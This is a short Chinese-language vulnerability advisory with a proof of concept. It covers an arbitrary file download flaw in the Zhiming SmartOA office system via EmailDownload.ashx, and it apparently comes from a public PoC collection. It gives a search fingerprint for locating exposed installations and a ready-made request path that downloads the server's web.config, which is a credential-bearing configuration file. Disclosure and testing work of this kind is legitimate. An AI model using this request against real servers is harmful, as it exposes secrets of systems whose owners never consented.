 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

<a-checkbox checked>智明 SmartOA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="智明协同-SmartOA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631326538226-96c43380-0494-47e1-899c-7e115530b1bb.png)

验证POC

```python
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631326793699-a63d3321-beee-4241-9369-2e3ccb9ac39f.png)